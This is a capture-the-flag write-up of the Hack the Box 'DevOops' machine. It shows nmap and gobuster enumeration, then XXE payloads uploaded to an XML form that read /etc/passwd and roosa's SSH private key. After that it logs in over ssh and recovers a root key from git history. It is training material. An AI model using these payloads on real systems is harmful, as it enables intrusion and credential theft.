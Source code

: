 ```yaml
---
title: DevOops
tags: linux
description: Write-up for Hack the Box - Devoops
---
```


![image](assets/79370115-1d91d900-7f20-11ea-8823-4678d93e0034.png)

## Overview

Devoops is an Ubuntu box running Gunicorn that was vulnerable to an XXE (XML External Entity) attack which lead to the disclosure of roosa's private ssh key. Using this key I was able to log in via ssh as roosa. While browsing Roosa's home folder I came across a local git repo which contained the ssh private key for root in the commit history which was used to ssh into the box as root.

## Enumeration

**Software**
* Ubuntu 16.04.4 LTS
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
* Gunicorn 19.7.1
* git version 2.7.4

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/devoops/_full_tcp_nmap.txt
```
* 22/tcp - ssh
* 5000/tcp - http

**Directory/File Brute Force**
```
gobuster dir -u http://10.10.10.91:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30
```
* /upload
* /feed

## Steps (user)

The nmap results came back with two ports: 22 (ssh) and 5000 which I was not familiar with. The scan listed port 5000 as an http server running Gunicorn. I did a quick search and determined that [Gunicorn](https://gunicorn.org/) "...is a Python WSGI HTTP Server for UNIX" 

Browsing to http://10.10.10.91:5000 shows an Under Construction page and with mention of an application called BlogFeeder.

![image](assets/81110147-28b9a280-8ee9-11ea-8cee-7bdf641b28d3.png)

Browsing to http://10.10.10.91:5000/feed just showed the image from the main page but http://10.10.10.91:5000/upload showed an upload form which was much more useful. 

![image](assets/81111390-ff017b00-8eea-11ea-8c67-e37724943662.png)

The title of the page was "Send feed with XML" and referenced the XML Elements "Author, Subject, Content". This hinted that XML files could be uploaded. I did an internet search to confirm the [basic structure of the XML file](https://www.w3schools.com/xml/xml_elements.asp). I created a file with the XML elements mentioned on the page and saved it as test.xml

```
<test>
  <Author>author</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test> 
```
After test.xml was uploaded I received a "Processed Blogpost" message which was encouraging.

![image](assets/81112416-9d421080-8eec-11ea-815f-db0942b89289.png)

Doing some research on XML exploits I came across an OWASP article explaining [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing). I updated the test.xml file to include the sample code for disclosing targeted files. 

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

After uploading the updated test.xml file I was able to successfully read /etc/passwd. This also implied that I could arbitrarily read other files this account had access to.

![image](assets/81113555-6d940800-8eee-11ea-8cca-5e5307c55de8.png)

Reviewing the entries in the /etc/passwd file showed an account named roosa. I also saw this user's home folder path referenced after each successful XML upload.

```
Content: content URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```

I modified test.xml again to check for an ssh private key in Roosa's home folder and she did.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

![image](assets/81114359-e5aefd80-8eef-11ea-809e-83114d8e1540.png)

I copied the part of the output pertaining to the private key, pasted it to a file on my local system called id_rsa, and ran chmod to set the correct permissions.

```
chmod 600 id_rsa
```

I was then able to use the private key to ssh into the system as roosa.

```
ssh -i id_rsa roosa@10.10.10.91
```

![image](assets/81114657-708ff800-8ef0-11ea-994e-bbb1e33c1d15.png)

## Steps (root/system)

While browsing roosa's home folder I came across /work/blogfeed which caught my attention because the name was referenced on the main page of the website.  Inside this folder was another folder called .git which is the "directory at the root of the working tree" according to the [gitrepository documentation](https://git-scm.com/docs/gitrepository-layout).

![image](assets/81115978-9e763c00-8ef2-11ea-9a89-438d8f49273e.png)

As a test I ran 'git status' and recieved the following output:

![image](assets/81116822-0b3e0600-8ef4-11ea-8d7d-7aa6a527dfdb.png)

I then ran git log -p to review previous commits. Reviewing the information shows the comment "reverted accidental commit with proper key" followed by the key that was removed.

![image](assets/81116447-5f94b600-8ef3-11ea-808a-22141e1d4aec.png)

Following the same procedure as before; I copied the 'removed' private key to a file called id_rsa2, set the correct permissions, and attempted log in with root using the new private key.

```
ssh -i id_rsa2 root@10.10.10.91
```

login was successful

![image](assets/81116782-f82b3600-8ef3-11ea-998d-9f7bc2e5b3cc.png)
